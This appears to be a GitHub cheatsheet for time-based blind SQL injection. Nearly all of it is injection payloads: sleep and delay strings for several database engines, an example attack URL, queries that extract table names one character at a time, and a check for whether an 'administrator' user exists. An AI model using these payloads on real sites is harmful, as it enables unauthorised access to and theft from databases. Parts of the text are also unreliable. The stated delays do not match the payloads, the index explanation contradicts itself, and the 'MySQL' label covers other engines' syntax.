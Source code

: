 # MySQL Time based SQL Injection Cheatsheet
  
  This is almost the same technique followed as [Blind Based SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Boolean%20Based%20Blind%20SQLi)
  
  ## Detecting the vulnerability
  The following stacked query detects if the website if vulnerable to Time Based SQL injection, by checking the website time response. The following condition is True because 1=1, which later executes the sleep function, so a 10 seconds delay is what we are expenting on the website's response.
  
  ```sql
  SELECT CASE WHEN (1=1) THEN pg_sleep(25) ELSE pg_sleep(0) END--
  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
  1'=sleep(25)='1
  '%2b(select*from(select(sleep(2)))a)%2b'
  WAITFOR DELAY '0:0:25';--
  OR SLEEP(25)
  AND SLEEP(25) AND ('kleiton'='kleiton
  WAITFOR DELAY '0:0:25' and 'a'='a;--
  IF 1=1 THEN dbms_lock.sleep(25);
  SLEEP(25)
  pg_sleep(25)
  and if(substring(user(),1,1)>=chr(97),SLEEP(25),1)--
  DBMS_LOCK.SLEEP(25);
  AND if not(substring((select @version),25,1) < 52) waitfor delay  '0:0:25'--
  1,'0');waitfor delay '0:0:25;--
  (SELECT 1 FROM (SELECT SLEEP(25))A)
  %2b(select*from(select(sleep(25)))a)%2b'
  /**/xor/**/sleep(25)
  or (sleep(25)+1) limit 1 --
  ```
  
  Example:
  ```http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5*5),0))OR'```  
  If the websites response is ~15 seconds, it means it is vulnerable to this kind of attack.
  
  ![ascii_table](https://www.asciitable.com/asciifull.gif)
   
  **Retrieving name of all tables name**
  
  Find the first character of the first table:
  ```sql
  and if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
  ```
  
  Find the second character of the first table:
```sql
and if((select substr(table_name,2,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

  Find the third character of the first table:
```sql
and if((select substr(table_name,3,1) from information_schema.tables where table_schema=database() limit 0,1)='a', sleep(10), null)--
```

Find the first character of the second table:
```sql
and if((select substr(table_name,1,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

Find the second character of the second table:
```sql
and if((select substr(table_name,2,1) from information_schema.tables where table_schema=database() limit 1,1)='a', sleep(10), null)--
```

So if you have realised by far, we are using this logic:
limit **3**,1 -> the number of the table (targeting the third character)
table_name,**3**,1 -> the number of the character in the table (targeting the fourth character of the table [the first character starts from 0, not 1])
  
  ***Alternative way of finding columns name by bruteforcing them***
  
  ```http://domain.com/index.php?id=1' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--+```  
  If the username **administrator** exists, you should except a response delay of 10 seconds, otherwise keep trying other methods.
